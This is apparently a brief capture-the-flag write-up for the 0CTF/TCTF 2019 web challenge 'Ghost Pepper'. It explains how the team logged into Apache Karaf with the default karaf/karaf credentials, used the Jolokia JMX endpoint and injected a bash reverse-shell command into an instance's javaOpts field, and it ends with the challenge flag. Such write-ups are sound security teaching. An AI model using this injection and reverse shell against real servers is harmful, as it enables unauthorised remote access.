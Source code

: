 # Ghost Pepper
*0CTF/TCTF 2019 Web 125*<br>
*Writeup by Payload, KAIST GoN*


## Problem

Do you know ghost pepper?

## Summary

**Ghost Pepper == (Bhut) Jolokia == JMX**

1. Login as default credential `karaf / karaf`
2. Check `/jolikia/list`
3. Create new instance, with javaOpts :=  `|| bash -i >& /dev/tcp/{{HOST}}/{{PORT}} 0>&1`
4. Enjoy the shell!


(detailed write up will be uploaded soon)

**`flag{DOYOULOVEJOLOKIA?ILOVEITVERYMUCH}`**
